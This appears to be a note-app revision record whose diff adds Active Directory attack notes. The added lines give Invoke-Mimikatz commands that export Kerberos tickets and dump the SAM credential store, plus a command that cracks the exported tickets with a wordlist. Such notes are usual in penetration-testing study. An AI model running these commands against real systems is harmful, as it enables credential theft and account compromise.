 id: b86478a9fc904b54a516593589b2bb02
parent_id: 7866cfd4e61f42888e51d8bdda178971
item_type: 1
item_id: 47d7422e06d948c0ba7ec81fc6caab6d
item_updated_time: 1650599522745
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"exit\\\"'\\\n\\\n\"],[1,\"kerberos::list /export\\\n\\\n\"],[0,\"# Remote\"]],\"start1\":327,\"start2\":327,\"length1\":16,\"length2\":40},{\"diffs\":[[0,\"\\\nklist\\\n\\\n\"],[1,\"## Using Invoke-Mimikatz\\\n\\\n> Invoke-Mimikatz -Command '\\\"privilege::debug\\\" \\\"token::elevate\\\" \\\"kerberos::list /export\\\" \\\"lsadump::sam\\\" \\\"exit\\\"'\\\n> \\\n> \\\\# Transfer file back to kali\\\n> \\\n> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;.kirbi file&gt;\\\n\\\n\"],[0,\"# PowerV\"]],\"start1\":660,\"start2\":660,\"length1\":16,\"length2\":293}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T03:56:57.668Z
created_time: 2022-04-22T03:56:57.668Z
type_: 13